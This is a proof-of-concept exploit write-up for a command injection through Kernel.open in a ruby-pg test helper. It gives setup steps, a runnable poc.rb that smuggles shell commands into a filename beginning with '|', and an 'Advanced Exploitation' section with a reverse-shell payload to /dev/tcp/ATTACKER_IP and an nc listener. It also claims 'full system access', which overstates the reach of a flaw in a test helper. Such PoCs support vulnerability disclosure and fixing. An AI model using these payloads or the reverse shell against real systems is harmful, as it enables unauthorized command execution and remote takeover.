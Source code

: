 # Complete PoC: Command Injection in ruby-pg (PR #665)



### 1. Install Vulnerable Version
```bash
# Clone the repository
git clone https://github.com/ged/ruby-pg.git
cd ruby-pg

# Checkout vulnerable version (pre-fix)
git checkout dae9173a10a194c6bfd1a5eb6bcb98637cfbf4b5

# Install dependencies
bundle install

# Verify installation
ruby -rpg -e "puts PG.library_version"
```

### 2. Verify Vulnerable Code
The vulnerability exists in `spec/helpers.rb`:
```ruby
# spec/helpers.rb (lines 477-480)
def dump_ssl_key(key, name)
  open(name, 'w') { |f| f.write key.to_pem }  # VULNERABLE: Kernel.open
  File.chmod(0600, name)
end
```


### 3. Create Exploit Test File
Create `poc.rb` in the project root:
```ruby
require 'openssl'
require_relative 'spec/helpers'

# Bypass the privacy check for demo purposes
helpers = Object.new.extend(PG::TestHelpers)

# Craft malicious filename
malicious_file = "| echo 'VULNERABLE: ' > /tmp/pg_poc; " +
                 "id >> /tmp/pg_poc; " +
                 "uname -a >> /tmp/pg_poc #"

# Generate test key
key = OpenSSL::PKey::RSA.new(2048)

# Trigger vulnerability
helpers.dump_ssl_key(key, malicious_file)

# Verify exploitation
puts "[+] Exploit executed. Checking results:"
puts File.read("/tmp/pg_poc") rescue puts "Exploit failed"
```

### 4. Execute the Exploit
```bash
# Run the PoC (requires Ruby with openssl)
ruby poc.rb

# Check the results
cat /tmp/pg_poc
```

### Expected Output:
```
VULNERABLE: 
uid=1000(user) gid=1000(user) groups=1000(user)
Linux hostname 5.15.0-78-generic #85-Ubuntu SMP x86_64 GNU/Linux
```

## Detailed Exploitation Steps
### Step-by-Step Analysis

1. **Vulnerable Method Invocation**:
   ```ruby
   dump_ssl_key(key, "| malicious command #")
   ```

2. **Command Interpretation**:
   - Ruby's `Kernel.open` sees the `|` character
   - Interprets the rest as shell command
   - The `#` comments out the trailing `'w'` argument

3. **Shell Execution Flow**:
   ```bash
   /bin/sh -c "echo 'VULNERABLE: ' > /tmp/pg_poc; id >> /tmp/pg_poc; uname -a >> /tmp/pg_poc"
   ```

4. **Post-Exploitation**:
   - Results stored in `/tmp/pg_poc`
   - Full system access achieved through command chaining

## Advanced Exploitation

### Reverse Shell Payload
Modify `poc.rb` with:
```ruby
malicious_file = "| bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1' #"
```

Execute with:
```bash
# On attacker machine
nc -lvnp 4444

# Run exploit
ruby poc.rb
```
